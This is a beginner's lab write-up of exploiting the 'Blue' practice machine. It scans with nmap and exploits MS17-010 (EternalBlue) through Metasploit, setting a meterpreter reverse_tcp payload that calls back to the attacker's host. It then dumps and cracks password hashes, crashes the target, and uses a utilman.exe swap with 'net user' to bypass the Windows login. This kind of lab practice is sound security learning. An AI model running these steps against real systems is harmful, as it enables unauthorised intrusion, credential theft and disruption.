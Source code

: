 ![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/logo.png)

# Blue

This is the Fifth Box i tired.

Let's start with finding the `ip address` of `Blue`

## Scanning

You can use `netdiscover` to find the ip address of the `Blue' Machine :

```
netdiscover -r [yourip]/24

Check for the one with Vritual Machine names on it
```
Now let's do an `nmap` scan.

```
nmap -p- -A -T4 [Target IP]

```
Results:


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/nmap.png)

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/nmap2.png)

We found these ports open:


- `135/tcp   open  msrpc        Microsoft Windows RPC`
- `139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn`
- `445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)`

Now after searching for this in google i found `eternal blue exploit` from [**Rapid7**](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/ms17-010.png)

And this is how you can use it :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/msexploit.png)

You can check for `eternalblue` exploits using tools like **Searchsploit**

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/searchsploit%20eter.png)

Now what is that :

```
Eternal Blue is an exploit that targets a vulnerability in the Windows implementation of the Server Message Block (SMB) protocol. SMB is a network file-sharing protocol that allows users to access files and printers on a local network.

The vulnerability, known as CVE-2017-0144, exists in the way Windows handles SMBv1 requests. Specifically, it affects the way Windows processes specially crafted SMBv1 packets that contain malicious code.

Here's a step-by-step breakdown of the exploit:

1. Initial Compromise: An attacker sends a specially crafted SMBv1 packet to a vulnerable Windows machine.
2. Buffer Overflow: The packet causes a buffer overflow in the Windows SMBv1 implementation, allowing the attacker to execute malicious code.
3. Shellcode Execution: The malicious code, known as shellcode, is executed in the context of the Windows kernel.
4. Kernel Mode Access: The shellcode gains access to the Windows kernel mode, allowing it to execute arbitrary code with elevated privileges.
5. Payload Delivery: The shellcode delivers a payload, such as malware or a backdoor, to the compromised machine.
6. Propagation: The malware can spread to other vulnerable machines on the network via SMB, creating a worm-like effect.
```
This is a manual way of exploiting this box using this [**Tool**](www.github.com/3ndG4me/AutoBlue-MS17-010).

But let's check if it's acutally vulnerable or not.

we can do that using this module :

`auxiliary/scanner/smb/smb_ms17_010`
```
$ msfconsole

$ msf5 > search eternalblue

$ msf5 > use 1

$ msf5 auxiliary(scanner/smb/smb_ms17_010) > options

$ msf5 auxiliary(scanner/smb/smb_ms17_010) >  set rhosts [blue ip]

$ msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[it will check if the target machine is vulnerable to any smb - MS17-010]
```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/msfchecksmb.png)

Yep, it is vulnerable to `ms17_010_eternalblue`

You can also check it by [**this**](https://github.com/3ndG4me/AutoBlue-MS17-010) script

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/etrnalbluchecker.png)

It say's `Target is not patched` so it's vulnerable.

## Exploitation

Now let's run `msfconsole`.

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/use%20exploit%20smb.png)

```
$ msf5 exploit(windows/smb/ms17 010 eternalblue) > options

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set rhosts [blue ip]

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set payload windows/x64/meterpreter/reverse_tcp

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > set lhost [your ip]

$ msf5 exploit(windows/smb/ms17 010 eternalblue) > run

```
![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/meterpretershell.png)

- We can dump the hashes using `hashdump` :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/hashdump.png)

- Take a screenshot :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/screenshot.png)


![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/Blue.png)

- Getting `shell` :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/authsystem.png)

Cracked the password :

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/password%20crack.png)

We can also crash this machine by doing like this 

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/crash.png)

```
(I need to learn more about these things !)
```
I also tried a simple trick in where you can rename the `utilman.exe` to `utilman2.exe` & 
`cmd.exe` to `utilman.exe` present in the `system32` folder.

(Found this one [**Loi Liang Yang**](https://youtu.be/2v-mGf4_9-A?feature=shared) channel)

This give you access to `cmd prompt` from the `user login window` and you can easily change user's password using :
```
net user [username][password]
```

![alt text](https://github.com/jissjames322/Beginner-Level-Machines/blob/49ded029b6c2f3238d85e40ace2076e37c81776b/Blue/images/utilman.png)


```
5 Down 1 to go
```








